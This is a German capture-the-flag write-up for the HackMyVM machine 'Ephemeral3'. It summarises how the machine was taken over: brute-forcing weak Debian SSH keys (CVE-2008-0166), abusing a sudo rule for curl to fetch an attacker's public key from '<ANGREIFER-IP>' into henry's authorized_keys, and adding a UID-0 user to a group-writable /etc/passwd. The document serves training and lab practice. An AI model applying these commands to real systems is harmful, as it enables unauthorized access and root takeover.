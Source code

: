 # Ephemeral3 - HackMyVM (Easy)

![Ephemeral3.png](Ephemeral3.png)

## Übersicht

*   **VM:** Ephemeral3
*   **Plattform:** [HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Ephemeral3)
*   **Schwierigkeit:** Easy
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 2022-10-04
*   **Original-Writeup:** https://alientec1908.github.io/Ephemeral3_HackMyVM_Easy/
*   **Autor:** Ben C.

## Kurzbeschreibung

Ziel dieser Challenge war die Kompromittierung der virtuellen Maschine "Ephemeral3" auf der HackMyVM-Plattform, um sowohl die User- als auch die Root-Flag zu erlangen. Der Lösungsweg begann mit Web-Enumeration, die auf eine bekannte Schwachstelle bei der SSH-Schlüsselgenerierung (CVE-2008-0166) hinwies. Diese wurde für den initialen Zugriff als Benutzer `randy` ausgenutzt. Die erste Rechteausweitung auf den Benutzer `henry` erfolgte durch eine unsichere `sudo`-Konfiguration für `curl`. Schließlich wurden Root-Rechte durch das Ausnutzen von Schreibrechten der Gruppe `henry` auf die Datei `/etc/passwd` erlangt, indem ein neuer Benutzer mit Root-Privilegien hinzugefügt wurde.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `arp-scan`
*   `vi` / Texteditor (`nano`)
*   `nmap`
*   `nikto`
*   `gobuster`
*   `wget`
*   `cat`
*   Web Browser / Google
*   Exploit-DB (Website)
*   `mkdir`
*   `tar`
*   `python2` (für Exploit CVE-2008-0166)
*   `ssh`
*   `sudo`
*   `curl`
*   `python3` (für HTTP-Server)
*   `ss`
*   `find`
*   `mkpasswd`
*   `su`
*   Standard Linux-Befehle (`ls`, `cat`, `find`, etc.)

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Ephemeral3" gliederte sich in folgende Phasen:

1.  **Reconnaissance & Enumeration:**
    *   IP-Findung mittels `arp-scan` (192.168.2.115).
    *   Umfassender Portscan mit `nmap` identifizierte offene Ports: 22/tcp (OpenSSH 8.2p1 Ubuntu) und 80/tcp (Apache httpd 2.4.41 Ubuntu).

2.  **Web Enumeration:**
    *   `nikto` lieferte allgemeine Informationen zum Apache-Server.
    *   `gobuster` fand das Verzeichnis `/agency` und die Datei `/note.txt`.
    *   Der Inhalt von `/note.txt` (`wget`, `cat`) enthielt einen Hinweis auf mit OpenSSL generierte Schlüssel und die E-Mail `henry@ephemeral.com`, was auf CVE-2008-0166 hindeutete.
    *   Weitere Enumeration von `/agency` (z.B. `contact.html`) lieferte potenzielle Benutzernamen wie `randy`.

3.  **Initial Access (CVE-2008-0166 - Schwache SSH-Schlüssel):**
    *   Recherche auf Exploit-DB (z.B. 5720) führte zum Download eines Pakets mit schwachen Debian OpenSSL SSH-Schlüsseln (oft `5622.tar.bz2`).
    *   Ein Python2-Skript wurde verwendet, um die Sammlung von RSA-2048-Schlüsseln gegen den SSH-Dienst für den Benutzer `randy` auf `ephemeral.com` zu testen.
    *   Ein funktionierender privater Schlüssel wurde gefunden (`rsa/2048/0028ca6d22c68ed0a1e3f6f79573100a-31671`).
    *   Erfolgreicher SSH-Login als `randy` mit dem kompromittierten Schlüssel.

4.  **Privilege Escalation (von `randy` zu `henry`):**
    *   `sudo -l` für `randy` offenbarte die Berechtigung: `(henry) NOPASSWD: /usr/bin/curl`.
    *   Ein Python3-HTTP-Server wurde auf dem Angreifer-System gestartet, um den eigenen öffentlichen SSH-Schlüssel (`id_rsa.pub`) bereitzustellen.
    *   Mit `sudo -u henry curl http://<ANGREIFER-IP>/id_rsa.pub -o /home/henry/.ssh/authorized_keys` wurde der Angreifer-Schlüssel in `henry`s `authorized_keys`-Datei geschrieben.
    *   SSH-Login als `henry` mit dem eigenen privaten Schlüssel war nun möglich. Die User-Flag (`user.txt`) wurde im Home-Verzeichnis von `henry` gefunden.

5.  **Privilege Escalation (von `henry` zu root):**
    *   Die Überprüfung der Dateiberechtigungen mit `ls -la /etc/passwd` zeigte, dass die Gruppe `henry` Schreibrechte auf die Datei hatte (`-rw-rw-r-- 1 root henry ...`).
    *   Mit `mkpasswd -m sha-512` wurde ein Passwort-Hash für einen neuen Benutzer `hacker` generiert.
    *   Die Datei `/etc/passwd` wurde mit `nano` bearbeitet und eine neue Zeile für den Benutzer `hacker` mit UID/GID 0 und dem generierten Hash hinzugefügt: `hacker:$6$HASH...:0:0:root:/root:/bin/bash`.
    *   Mit `su hacker` und dem zuvor gewählten Passwort konnte eine Root-Shell erlangt werden. Die Root-Flag (`root.txt`) wurde im Home-Verzeichnis von Root gefunden.

## Wichtige Schwachstellen und Konzepte

*   **Schwache SSH-Schlüssel (CVE-2008-0166):** Aufgrund einer alten Schwachstelle in OpenSSL auf Debian-basierten Systemen wurden SSH-Schlüssel aus einem vorhersagbaren, stark begrenzten Satz generiert. Ein Exploit-Paket mit diesen bekannten schwachen Schlüsseln wurde verwendet, um den privaten Schlüssel für den Benutzer `randy` zu finden und sich per SSH anzumelden.
*   **Unsichere `sudo`-Konfiguration (`curl`):** Dem Benutzer `randy` wurde erlaubt, den Befehl `curl` als Benutzer `henry` ohne Passworteingabe auszuführen. Dies wurde ausgenutzt, um den öffentlichen SSH-Schlüssel des Angreifers herunterzuladen und in die `authorized_keys`-Datei des Zielbenutzers `henry` zu schreiben, was einen direkten SSH-Zugang als `henry` ermöglichte.
*   **Unsichere Dateiberechtigungen (`/etc/passwd` schreibbar durch Gruppe):** Die Datei `/etc/passwd` war für die Gruppe `henry` schreibbar. Da der Benutzer `henry` Mitglied seiner eigenen Gruppe war, konnte er die Datei modifizieren. Dies erlaubte das Hinzufügen eines neuen Benutzers mit UID 0 (Root-Rechten) und einem bekannten Passwort-Hash, was zur vollständigen Kompromittierung des Systems führte.
*   **SSH Key Brute-Forcing (via CVE-2008-0166):** Anstatt Passwörter zu knacken, wurde hier eine Sammlung bekannter, schwacher SSH-Privatschlüssel gegen den SSH-Dienst des Ziels für bestimmte Benutzernamen getestet, um einen gültigen Schlüssel für den initialen Zugriff zu finden.

## Flags

*   **User Flag (`/home/henry/user.txt`):** `9c8e36b0cb30f09300592cb56bca0c3a`
*   **Root Flag (`/root/root.txt`):** `b0a3dec84d09f03615f768c8062cec4d`

## Tags

`HackMyVM`, `Ephemeral3`, `Easy`, `CVE-2008-0166`, `WeakSSHKekys`, `SudoCurl`, `ETCPasswdWritable`, `FilePermissions`, `Linux`, `WebEnumeration`, `Privilege Escalation`
